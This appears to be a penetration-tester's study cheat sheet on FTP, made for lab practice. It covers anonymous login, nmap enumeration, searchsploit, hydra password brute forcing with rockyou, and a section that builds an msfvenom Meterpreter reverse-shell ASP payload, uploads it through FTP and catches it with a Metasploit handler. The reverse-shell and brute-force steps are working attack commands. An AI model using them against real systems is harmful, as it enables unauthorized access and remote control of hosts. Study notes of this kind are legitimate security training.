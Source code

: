 ## FTP
File Transfer Protocol
- Protocol to transfer files between hosts
- port 21
- can be anonymous or authenticated
- login anonymous if allowed
- commonly used for webserver

### Good to know
- binary mode sends files as they are
- ascii mode converts files to ascii
- switch between modes with `binary` and `ascii`


## FTP Commands
```sh
ftp 10.129.228.195
-h help
```
#### Download ALL Files at once
```shell
wget -m --no-passive ftp://anonymous:anonymous@10.129.202.5
tree . #shows the directory structure if we do it in that created folder
```
#### Upload a file
```shell 
touch testupload.txt # on attacker
put testupload.txt #in ftp>
```
#### On ftp shell:
```sh
help #hilfe
dir #show directory
get #download file
cd #change directory
put /home/test/test.txt #upload file
```


### FTP Enumeration
In ftp shell
```shell
status #show some infos
debug #show debug info
trace #show if tracing is on
ls # list directories
```

### Nmap and FTP
```sh
nmap -sV -sC 192.254.1.1 -p21 #default scan find already anonymous login is allowed and read or writeable
sudo nmap -sV -p21 -sC -A 10.129.202.5 #aggresive scan with script and version detection
```
Find all FTP related scripts in nmap
```shell
find / -type f -name ftp* 2>/dev/null | grep scripts
```
Nmap ftp scripts
```
/usr/share/nmap/scripts/ftp-syst.nse
/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-bounce.nse
/usr/share/nmap/scripts/ftp-libopie.nse
/usr/share/nmap/scripts/ftp-anon.nse
/usr/share/nmap/scripts/ftp-brute.nse
```
Nmap cript trace for more informations
```shell
sudo nmap -sV -p21 -sC -A 10.129.14.136 --script-trace #see what nmap exactly send and get in the scripts
```
### searchsploit 
femitter is a ftp server type name
```sh
searchsploit femitter #search for exploits
```

### FTP Annonymous Login
if anonymous ftp login allowed then user username: anonymous
```
username: anonymous
password: any
```

### Login bruteforce
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.255.1.231 ftp #bruteforce ftp with rockyou list
-l # username 
-P # passwordlist target protocol
```
```
Google for ftp default login data with the target server version / ftp client name:
- admin: password
- admin: admin
- etc. depending on ftp server version
```
### Reverse Shell over FTP  

1. Create reverse shell with msfvenom
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.254.1.229 LPORT=4444 -f asp > shell.asp

#asp: if the target is a asp server
```
2. That creates an asp shell script which can be
3. Accepting the shell with metasploit:
```shell
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.254.1.228; set lport 4444; run -j"
```
4. Put  the shell.asp in webroot of ftp and try to open in browser.
5. Than open it in browser to execute the shell.

## Ways to interact with ftp beside ftp client
```shell
nc -nv 10.129.14.136 21
telnet 10.129.14.136 21
openssl s_client -connect 10.129.14.136:21 -starttls ftp # ftp over open ssl
```

## vsFTP
is a very often used FTP server here is the configuration parameters descriped
- vsFTP:  https://security.appspot.com/vsftpd.html  
- conf expl: http://vsftpd.beasts.org/vsftpd_conf.html

#### Enumeration
```sh
cat /etc/vsftpd.conf | grep -v "#" #show vsftpd config
cat /etc/ftpusers #show ftp users
 
```

#### Dangerouse Configurations
```
Setting	Description
anonymous_enable=YES	        Allowing anonymous login?
anon_upload_enable=YES	        Allowing anonymous to upload files?
anon_mkdir_write_enable=YES	Allowing anonymous to create new directories?
no_anon_password=YES	        Do not ask anonymous for password?
anon_root=/home/username/ftp	Directory for anonymous.
write_enable=YES	        Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE?
```
